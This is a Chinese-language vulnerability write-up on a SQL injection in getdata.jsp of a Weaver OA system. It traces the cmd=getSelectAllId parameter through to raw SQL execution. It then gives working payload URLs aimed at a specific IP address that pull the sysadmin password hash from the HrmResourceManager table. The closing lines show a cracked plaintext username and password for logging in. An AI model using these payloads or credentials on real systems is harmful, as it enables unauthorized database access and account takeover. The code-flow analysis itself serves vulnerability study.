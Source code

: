 在 getdata.jsp 中，直接将 request 对象交给

weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) 方法处理

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03Jiaibqs10WiaZ4uNxLV8kCuV1gRRUcibCoM1Wbia7ATIfSFluGAgSpkGicH4JBDIg/640?wx_fmt=png)

在 getData 方法中，判断请求里 cmd 参数是否为空，如果不为空，调用 proc 方法

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsPDOeVFyCHiar6BXnwzc624BvXHzRc7lUkwesvQYL2IeTibyfyfdcjEZA/640?wx_fmt=png)

Proc 方法 4 个参数，("空字符串" , "cmd 参数值" , request 对象 , serverContext 对象)，在 proc 方法中，对 cmd 参数值进行判断，当 cmd 值等于 getSelectAllId 时，再从请求中获取 sql 和 type 两个参数值，并将参数传递进 getSelectAllIds（sql,type）方法中

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsypBMIsmibCaqWgU1YZtAqOQ0ibYLH1BEejwTicficb15xUWCcGQKc2M1EA/640?wx_fmt=png)

在 getSelectAllIds(sql,type) 方法中，直接将 sql 参数的值，传递进数据库执行，并判断 type 的值是否等于 5，如果等于 5，获取查询结果的 requestId 字段，否则获取查询结果的 id 字段，到此，参数从 URL，一直到数据库被执行。

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsacBZFajNN29XL2qWYJN4DdlEVv5nhbVuesWyzkQnHVfdS0VMXewbKQ/640?wx_fmt=png)

根据以上代码流程，只要构造请求参数

```
?cmd= getSelectAllId&sql=select password as id from userinfo;
```

就可以完成对数据库操控，在浏览器中，构造测试 URL：

```
http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%201234%20as%20id
```

页面会显示 "1234"

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsJkWmBEQq4ibIQpYibMp7abvczHT6ZhO1TsBB1LUaznzlkc19pU3XXq1g/640?wx_fmt=png)

```
## 使用payload：
Select password as id from HrmResourceManager

http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询 HrmResourceManager 表中的 password 字段，页面中返回了数据库第一条记录的值（sysadmin 用户的 password）

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsgYINU4LZiaTtm9TKnmFKVQPgibxX03UD0EaCgqaicGQnoeURd3qZnibxaA/640?wx_fmt=png)

对密文进行 md5 对比：

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsWRFgxxFCOypV67nEYa14OZF6YibEianWxHReLuGkQSVFI4ibxf6cWZ34Q/640?wx_fmt=png)

```
## 使用以下账号密码登录系统
sysadmin
123450aA.
```
